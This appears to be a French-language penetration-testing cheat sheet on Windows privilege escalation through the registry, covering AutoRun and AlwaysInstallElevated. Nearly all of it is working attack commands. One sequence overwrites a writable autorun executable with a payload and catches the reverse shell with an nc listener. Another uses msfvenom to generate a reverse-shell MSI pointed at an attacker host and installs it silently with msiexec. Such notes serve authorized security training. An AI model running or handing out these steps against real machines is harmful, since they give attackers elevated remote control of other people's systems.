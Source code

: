 # Registry

## AutoRun

Interrogez le registre pour affichers les exécutables automatiques

```sh
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

À l'aide de accesschk, rechercher l'exécutable accessible en écriture

```sh
accesschk.exe /accepteula -wvu "FULL_PATH\file.exe"
# check: RW BUILTIN\Users | RW Everyone
#			FILE_ALL_ACCESS
```

Remplacez l'exécutable accessible en écriture par le payload

```sh
copy C:\temp\payload.exe "FULL_PATH\file.exe" /Y
```

Démarrez un écouteur sur Kali

```sh
rlwrap nc -nlvp 444
```

Redémarrez la machine Windows pour déclencher un reverse shell

> Dans un engagement réel, vous devrez attendre qu'un administrateur se connecte lui-même!

## AlwaysInstallElevated

Pour pouvoir exploiter cette vulnérabilité, les deux clés de registre doivent être définis sur 1(0x1)
Dans le cas contraire, l'exploitation ne sera pas possible

```sh
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Si ceux-ci sont définis, générer un fichier `.msi` et transféré le fichier a la victime

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK_IP> LPORT=9001 -f msi -o malicious.msi
```

Une fois que vous avez transféré le fichier malveillant, exécuter le programme d'installation avec la commande ci-dessous et recevoir le shell

```sh
msiexec /quiet /qn /i C:\Temp\malicious.msi
```
